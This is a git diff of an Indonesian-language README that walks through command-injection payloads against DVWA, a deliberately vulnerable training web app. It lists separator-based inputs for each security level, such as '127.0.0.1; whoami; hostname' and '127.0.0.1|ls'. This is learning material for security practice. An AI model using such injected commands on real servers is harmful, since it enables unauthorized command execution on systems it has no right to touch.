

Menambahkan Command Injection

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.9476, 0.955, 0.9782, 0.9858], [0.2445, 0.955, 0.2751, 0.9858]]

diff --git a/README.md b/README.md
@@ -4,7 +4,7 @@ Damn Vulnerable Web Application (DVWA) adalah aplikasi web berbasis PHP/MySQL ya
 Informasi Download dan instalasi: https://github.com/digininja/DVWA
 
 ## Command Injection
-Command Injection (Shell Injection) adalah celah keamanan web yang memungkinkan penyerang dapat mengeksekusi perintah sistem operasi (OS) sewenang-wenang di server yang menjalankan aplikasi, dan biasanya membahayakan aplikasi dan semua datanya sepenuhnya.
+Command Injection (Shell Injection) adalah celah keamanan web yang memungkinkan penyerang dapat mengeksekusi perintah sistem operasi (OS) sewenang-wenang di server yang menjalankan aplikasi, dan biasanya membahayakan aplikasi dan semua data.
 
 ### Security Low
 ```sh
@@ -13,11 +13,22 @@ Command Injection (Shell Injection) adalah celah keamanan web yang memungkinkan 
 ![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%201.JPG)
 
 ```sh
-127.0.0.1; cat index.php
+127.0.0.1; whoami; hostname
 ```
 ![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%202.JPG)
 
+### Security Medium
 ```sh
-127.0.0.1; whoami; hostname
+127.0.0.1& ls
 ```
+```sh
+127.0.0.1& whoami& hostname
+```
+
+### Security Hard
+Di level ini kita hanya bisa mengeksekusi 1 perintah saja
+```sh
+127.0.0.1|ls
+```
+
 ![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/dt%203.JPG)
